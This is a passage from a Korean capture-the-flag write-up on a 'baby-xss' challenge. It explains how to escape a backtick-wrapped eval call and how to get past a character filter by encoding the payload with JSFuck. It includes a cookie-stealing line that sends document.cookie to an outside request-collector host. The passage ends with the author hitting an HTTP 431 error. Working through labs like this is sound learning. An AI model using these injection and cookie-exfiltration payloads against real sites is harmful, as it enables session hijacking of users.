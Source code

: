 ```javascript
    await browser.close();
  })();
  res.end('Reported!');
})
```

<br>

일단 정규표현식에서 영어 소문자 대소문자를 사용하지 못하고, `\&#;%*$=` 의 특수문자들을 사용하지 못하니 이를 제외한 특수문자로 xss 페이로드를 한 번 생각해보아야 한다. 대충 생각나는건 공백 + , ` ' ! () [] ^ @ ~ < > ? 정도인 것 같다. 일단 music 엔드포인트에서 eval 함수의 구문을 우회해서 생각해봐야 한다. 아래는 age 값이 들어갈 eval 함수인데 전체가 백틱으로 감싸져 있기 때문에 ', alert(1), ' 라는 문자열을 넣게 되면 일단 정규표현식에 걸리는 걸 제외하고 alert(1)을 실행할 수 있다. 

```javascript
eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
# eval(`msg.innerHTML='This is recommended album for', alert(1), '-year-old.'`);
```

<br>

`', 1, '` 을 넣게되면 일단 다음과 같이 for 다음 문자가 짤려서 xss 페이로드를 넣을 수 있을 것 같다.

<img src="/images/2024-11-25-baby-xss/{C461FD13-0132-475F-AF2D-5A4A1D437FD5}.png" alt="{C461FD13-0132-475F-AF2D-5A4A1D437FD5}" style="zoom:50%;" />

<br>

해당 특수문자들로 xss 페이로드를 만들어야 하는데 예전에 xss 우회 기법을 정리하다가 JSFuck으로 우회하는 기법이 생각났는데 딱 사용 가능한 특수문자가 JSFuck을 사용하라고 만든 문제같다. 따라서 아래 문자열들을 JSFuck 사이트를 이용해 문자열을 바꿔주어야 한다. 근데 431 에러가 나온다.

```
location.href="https://pkxlvsz.request.dreamhack.games/"+document.cookie
```

<img src="/images/2024-11-25-baby-xss/{177D1FA5-5134-4D1E-8B0C-001A3DD924DB}.png" alt="{177D1FA5-5134-4D1E-8B0C-001A3DD924DB}" style="zoom:50%;" />
